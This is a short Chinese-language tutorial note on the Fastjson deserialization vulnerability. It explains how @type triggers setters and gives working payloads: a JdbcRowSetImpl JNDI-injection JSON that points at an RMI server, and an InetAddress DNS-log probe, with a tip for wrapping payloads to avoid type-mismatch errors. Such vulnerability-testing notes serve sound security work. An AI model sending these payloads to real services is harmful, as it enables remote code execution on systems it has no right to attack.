 Ref：https://zhuanlan.zhihu.com/p/99075925

## Fastjson反序列化漏洞

### 原理

反序列化 @type 指定的类时，指定类的 setter 或 getter 被调用导致的命令执行。

漏洞触发和 `setter` 与 `getter` 有关，那么利用就是找那些在 `setter` 和 `getter` 中有敏感方法的类。

### 利用

JNDI 注入：Java命名和目录接口（JNDI）是一种Java API，类似于一个索引中心，它允许客户端通过name发现和查找数据和对象。这些对象可以存储在不同的命名或目录服务中，例如远程方法调用（RMI），轻型目录访问协议（LDAP）或域名服务（DNS）。

`{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://localhost:1099/POC", "autoCommit":true}`

原理是 `com.sun.rowset.JdbcRowSetImpl` 这个类在设置 `autoCommit` 的 setter 时会调用 connect 方法去连接 `dataSourceName` 指定的 jdbc 服务。 JNDI 常用的有 RMI 和 LDAP 服务。

DNS log：

```text
{"@type":"java.net.InetAddress","val":"example.com"}
```

原理是 `java.net.InetAddress` 这个类在实例化时会尝试做对 `example.com` 做域名解析，这时候可以通过 dns log 的方式得知漏洞是否存在了。

在vulhub环境中，用反弹shell的payload来打可以成功，但换这个检测用的payload就不行。 其实原因是，有的开发在使用fastjson解析请求时会使用Spring的@RequestBody注释，告诉解析引擎，我需要的是一个User类对象（其实就可以理解为JSON中不加@type的普通对象）。

这时候你传入的是{"@type":"java.net.Inet4Address","val":"xxxxx"}，相当于给到他的是java.net.Inet4Address对象，所以会爆出一个type not match的异常。 

所以建议测试fastjson漏洞，最外层一定是数组或者对象，不要加@type，然后将Payload作为其中一个键值，比如： { "xxx": {"@type":"java.net.InetAddress","val":"dnslog"} } 

这样写通常就不会有type not match的错误了。